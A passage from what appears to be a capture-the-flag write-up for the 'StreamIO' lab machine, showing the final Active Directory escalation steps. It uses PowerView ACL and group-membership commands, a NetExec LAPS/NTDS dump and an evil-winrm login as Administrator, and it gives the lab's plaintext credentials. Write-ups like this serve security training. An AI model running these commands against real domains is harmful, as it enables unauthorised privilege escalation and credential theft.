 ```
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"

Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915221123.png)

and now we can run nxc

```
nxc smb 10.10.11.158 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds --user Administrator
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915221426.png)

Logon Failure but we got password.
Connect with winrm and grab root.txt

```
evil-winrm -i 10.10.11.158 -u administrator -p "{8JsX7h5Z8h2z6"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915221541.png)
